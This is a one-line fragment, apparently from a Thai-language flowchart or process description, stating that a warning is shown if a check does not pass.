       ❌ ถ้าไม่ผ่าน → แสดง ⚠️ Warning
